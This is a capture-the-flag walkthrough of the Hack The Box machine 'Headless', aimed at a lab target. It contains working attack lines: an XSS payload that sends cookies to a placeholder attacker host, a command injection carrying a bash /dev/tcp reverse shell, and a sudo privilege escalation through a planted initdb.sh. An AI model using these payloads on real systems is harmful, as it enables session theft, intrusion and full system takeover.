


# Headless

Headless is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.


The ports 22 and 5000 are open.
Let's check the port 5000 first because it's seem to be a http service. So we browse to `10.10.11.8:5000`.


This is what you should see after browsing to the domain. The only thing we can do it's to click on the "For questions" button.

We are redirected to the `/support` page where there is only a form. And if we fill it with valid input nothing happen. So let's open **Burpsuite** and intercept the request.


We can try if the form is vulnerable to **XSS**. First we try with a basic payload like `<script>alert('XSS')</script>` in the message variable.


The server detected our XSS and blocked. And it say administrator will review this incident. And it display the content of our request without the form information. So we can try a data grabber XSS in the header of the request! The payload used is this one : `<script>new Image().src='http://YOUR_IP:YOUR_PORT/cookie.php?c='+document.cookie;</script>`. Don't forget to setup a python server to receive the request.

```bash
python3 -m http.server 8000
```


And if you wait a little you should receive some request on your python server.


## Foothold

We have admin cookie! Now we must search how to use them. So we will do some **directory research**


There is a `/dashboard` page.



But we are not permitted to view the page. But let's try again with the admin cookie ! For that inspect the page and go to the storage tab. And copy paste the cookie we have receive. Finally refresh the page.


It worked ! Let's click on the button "Generate Report".


It told us that the systzm are running. Let's intercept the request.



We can try a command injetion like `;ls`


## User flag

And yes, there is a command injection vulnerability. With this we can obtain a reverse shell so setup a netcat listener and send this payload in the request (don't forget to URL encode it), `bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/YOUR_PORT <&1'`


And you should have a connection on your netcat listener.


Stabilize the shell first.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```

We are logged as the user `dvir` and we can find the user flag in it's home directory

## Root flag

If we execute the command `sudo -l` we can see thats we can execute the script `/usr/bin/syscheck` with root right. And if we `cat` the script we obtain this:

```bash
!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

It does some system check but what is really intersting is this part:

```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
```

So if the `initdb.sh` is not running it execute the command `./initdb.sh 2>/dev/null`. But it don't execute it with a absolute path. So we can exploit this. Go to a directory where you have write right. Per exemple `/tmp` after create a `initdb.sh` file,  give it execution rightfile with and put `#!/bin/bash\n/bin/bash` inside. And execute `syscheck` with sudo.

